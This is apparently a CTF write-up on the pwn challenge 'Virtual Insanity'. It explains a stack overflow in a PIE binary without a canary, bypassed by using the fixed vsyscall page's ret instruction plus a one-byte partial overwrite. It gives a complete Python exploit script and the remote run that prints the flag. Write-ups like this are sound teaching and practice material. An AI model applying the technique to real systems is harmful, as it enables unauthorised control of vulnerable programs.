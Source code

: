 ```yaml
---
title: "[WRITE UP] - TRX CTF"
published: 2025-02-25
description: "Write up for TRX CTF"
image: "./TRX.png"
tags:
  - PWN
category: "CTF Write ups"
draft: false
---
```


# Introduction

Another great CTF that I participated in. There were a lot of good pwn challenges in this CTF, but in terms of skills, I could only solve one challenge, which will be my write-up for that challenge. I will try to find out about other challenges and update this write-up... Because I am currently practicing ASM coding and practicing more Reverse skills.

# Virtual Insanity

## Description

Dancing, Walking, Rearranging Furniture

DISCLAIMER: This challenge doesn't require brute-forcing

## Analysis

First, we will need to use `checksec` to know what `security method` is applied to this binary

```sh
[*] '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

So we can see that the binary has `PIE` and no `Canary`, dive into the source code we know that there is a `win` function which we can let the program return to after finishing the `main` function

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

But the problem here is this binary has `PIE`, and there is no way for us to `ret2win` in a manual way, how about `Stack Pivot`? Still no because the `puts` function is above `read` function and there is `FULL RELRO` so this is impossible to leak the address too. We can think of `Partial Overwrite`, but this way is still impossible because the `main` function calls first, and when it returns, it will return to the function that called it (as known as `__libc_start_call_main()`) to exit.

![alt text](image-1.png)

It feels pretty hopeless because there's no way to exploit it huh? But once we look carefully we know that there is `vsyscall` mapping page. The `vsyscall` partition is only visible when we enable `emulate` mode for the kernel.

For `wsl2` we can reconfigure the `.wslconfig` file to make it visible to us

```sh
[wsl2]

processors=2

kernelCommandLine = vsyscall=emulate

[experimental]
sparseVhd=true
```

And for `Ubuntu` we can use
```sh
cat /proc/self/maps | grep vsyscall
echo 'GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"' >> /etc/default/grub
update-grub
reboot
```

And when we finish and check `vmmap` again we can see it

![alt text](image.png)

By reading this [article](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-3.html), we can understand the purpose and functionality of `vsyscall` and `vDSO`. In short, `vsyscall` (`virtual system call`) is a mechanism in the Linux kernel designed to speed up certain system calls. The kernel maps a special memory page into user space, which contains predefined variables and implementations of specific system calls. One notable characteristic of `vsyscall` is that its address is `static`, meaning it is not affected by `PIE`. And as we can see in `__vsyscall_page` symbol which is defined in [vsyscall_emu_64.S](https://codebrowser.dev/linux/linux/arch/x86/entry/vsyscall/vsyscall_emu_64.S.html)

```S
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_time, %rax
    syscall
    ret

    .balign 1024, 0xcc
    mov $__NR_getcpu, %rax
    syscall
    ret
```

We can see that certain system calls (`gettimeofday`, `time`, `getcpu`) are implemented within the `vsyscall` page, each containing a `ret` instruction. The starting address of the `vsyscall` page is always `0xffffffffff600000`, as it remains static. Because of this, `glibc` knows the exact addresses of all virtual system call handlers. These addresses are defined in the `glibc` source code as follows:

```c
#define VSYSCALL_ADDR_vgettimeofday   0xffffffffff600000
#define VSYSCALL_ADDR_vtime           0xffffffffff600400
#define VSYSCALL_ADDR_vgetcpu         0xffffffffff600800
```

All virtual system call requests are handled within the `__vsyscall_page`, using an offset based on `VSYSCALL_ADDR_vsyscall_name`. The system call number is placed into the `rax` register, and then the native `syscall` instruction for `x86_64` is executed.

## Exploit Development

So with that information about `vsyscall` we can easily take advantage of the `ret` instruction, to let the program return to `rsp+0x10` (in case we stopped at main `ret`)

```sh
00:0000│ rsp 0x7fffffffdc38 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
01:0008│     0x7fffffffdc40 ◂— 0
02:0010│     0x7fffffffdc48 —▸ 0x5555555551da (main) ◂— endbr64
03:0018│     0x7fffffffdc50 ◂— 0x1ffffdd30
04:0020│     0x7fffffffdc58 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
05:0028│     0x7fffffffdc60 ◂— 0
06:0030│     0x7fffffffdc68 ◂— 0xacb58eb5d2e91dc3
07:0038│     0x7fffffffdc70 —▸ 0x7fffffffdd48 —▸ 0x7fffffffdfd1 ◂— '/home/alter/CTFs/2025/TRX_CTF/dist/chall'
```


So our exploit will look like this:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*main+109
        c
        '''.format(**locals()), *a, **kw, env={"FLAG": r"TRX{example_flag}"})
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, env={"FLAG": r"TRX{example_flag}"})

p = start()

# ==================== EXPLOIT ====================

'''
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000               mov    rax, 0x60     RAX => 0x60
0xffffffffff600007               syscall
0xffffffffff600009               ret
'''

def exploit():


  offset = 40
  vsyscall = 0xffffffffff600000

  payload = b'A' * offset
  payload += p64(vsyscall) * 2
  payload += p8(0xa9)

  s(payload)

  interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/TRX_CTF/dist
$ ./xpl.py REMOTE virtual.ctf.theromanxpl0.it 7011
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to virtual.ctf.theromanxpl0.it on port 7011: Done
[*] Switching to interactive mode
You pathetic pwners are worthless without your precious leaks!!!
IMPOSSIBLE! GRAHHHHHHHHHH
TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}
[*] Got EOF while reading in interactive
```

